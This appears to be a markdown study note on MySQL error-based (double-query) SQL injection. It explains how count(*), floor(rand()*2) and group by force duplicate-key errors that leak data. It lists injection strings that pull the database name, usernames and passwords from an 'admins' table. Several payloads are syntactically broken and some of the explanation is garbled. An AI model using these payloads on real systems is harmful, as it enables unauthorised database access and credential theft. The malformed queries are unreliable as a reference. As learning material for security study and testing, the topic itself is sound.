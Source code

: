 
# Error based SQLi
**TL;DR we extract info via forced error messages. We do this by causing multiple entries for the same temp table ID.**  
[Source_1](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c)
Bu putting together a query which will create a temporary table by generating int 0-1 for each row of data, ad then grouping them by whichever int this happens to be. If the values end up the same form repeated runs, an error is produced which concede information pertaining to whatever it was we were selecting from.

So the two trick parts, count(*) and rand() are both needed so that MySQL actually runs this multiple times, instead of just optimizing past it. But the trick is to create a temporary table that has duplicate keys, and let MySQL tell us about the value of that key in an error.
EG

### `Select count(*), Select floor(rand()*2)a from users group by a`
<pre>
+----------+---+  
| count(*) | a |  
+----------+---+  
|       10 | 0 |  
|        3 | 1 |  
+----------+---+  
</pre>
After running repeatedly eventually all values will end up either 0 or 1, thus erring out

`Count(*)` – displays number of rows in table  
`Floor()` – reduces a decimal to the floor (nearest possible integer)  
`Rand()*2` – generates a random decimal between 0 and 1, the *2 adds   another integer so it becomes between 0 and 2  
`Group by` – will aggregate the same values in the column, in this case the assigned alias is “a”
Further enumeration can be carried out by going after  information_schema.tables:

### `' or (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)#`  
  
  
`concat` concatenates 2 strings and `database()` pulls the name of the current DB, thus we concatenate current DB along with "a" from info schema

when this eventually errors out,as you probably guessed, the current db name will be yielded in the error.  

We may get an error regarding too many columns for operand if the injection vector contains `AND` as it operates on 2 operands. We can navigate out of this by nesting our entire existing query string, thus making the whole thing 1 table for a selectstatement work on, with alias `b`

`and (select 1 from (Select count(*),concat((select database()),”+”, Select floor(rand()*2)a from information_schema.tables group by a)b`

We can play aroun with other commands as below:

`' or (select 1 from (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)b)#` 
`' or (select 1 from (Select count(*),concat((select username from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)`  
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`  

_'Operand should contain 1 column(s)' = prepend `(select 1`  
'Subquery returns more than 1 row' = keep running the query until error!_

